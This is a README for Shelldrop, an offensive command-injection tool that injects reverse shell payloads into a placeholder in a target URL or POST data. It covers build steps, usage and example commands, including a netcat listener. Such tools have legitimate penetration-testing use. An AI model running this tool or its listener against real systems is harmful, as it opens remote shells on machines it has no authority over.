

# Shelldrop

A command injection tool that leverages an injection point by automatically testing for working reverse shell payloads.

Shelldrop works by injecting payloads into the provided `SHELLDROP` keyword/placeholder.

**Features:**

- Configurable injection point
- Automatic payload detection
- Built-in listener
- Flexible configuration



## Build

```bash
git clone https://github.com/shhrew/shelldrop
cd shelldrop
go build -o shelldrop
```

## Usage

```bash
usage: shelldrop [-h|--help] -l|--lhost "<value>" -p|--lport <integer>
                 [-P|--payload "<value>"] -u|--url "<value>" [-X|--method
                 (GET|POST)] [-d|--data "<value>"] [--no-listener] [--no-color]

                 A command injection tool that automatically tests for working
                 reverse shell payloads.

[*] = Asterisked arguments can contain the SHELLDROP injection keyword

Arguments:

  -h  --help         Print help information
  -l  --lhost        The listen address
  -p  --lport        The listen port
  -P  --payload      Specific payload to use
  -u  --url          The target url [*]
  -X  --method       The request method. Default: GET
  -d  --data         POST data [*]
      --no-listener  Disable the built-in listener
      --no-color     Disable color output
```

## Examples

#### URL Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP"
```

#### Using Specific Payload
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" -P bash_tcp_1
```

#### Post Data Injection
```bash
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php" -X POST -d "vuln_param=SHELLDROP"
```

#### Using External Listener
```bash
# Start your own listener first
nc -lvp 4444

# Run shelldrop with built-in listener disabled
shelldrop -l 127.0.0.1 -p 7331 -u "http://localhost/shell.php?cmd=SHELLDROP" --no-listener
```